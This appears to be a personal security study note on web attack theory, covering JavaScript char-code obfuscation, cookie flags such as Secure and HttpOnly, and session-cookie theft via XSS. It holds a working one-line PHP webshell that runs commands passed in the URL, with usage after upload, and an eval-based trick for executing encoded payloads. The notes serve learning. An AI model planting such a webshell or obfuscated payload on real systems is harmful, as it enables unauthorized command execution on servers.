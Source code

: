 **Type:** #type/theory
**Tags:** #tech/web

---
# Javascript
`String.fromCharCode()`expects decimal charcodes --> when using [[3_Tools/defensive/Cyberchef|Cyberchef]], use base 10

use `eval(String.fromCharCode()) to execute encoded payload
# PHP
simple php webshell: `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
	takes shell command in the URL: upload file and then use `[url to file]?cmd=<command>`

# Cookies
^30cd96
## Relevant cookie flags
- `Secure`: Cookie can only be sent over encrypted connections
- `HttpOnly`: Browser denys javascript access to the cookie
	- If not set, the cookie can be read by javascript - e.g. to [[#^c0c94a|steal a session cookie]] using [[2_Tech-Specifics/Web/OWASP TOP 10/XSS Fundamentals|XSS Fundamentals]]
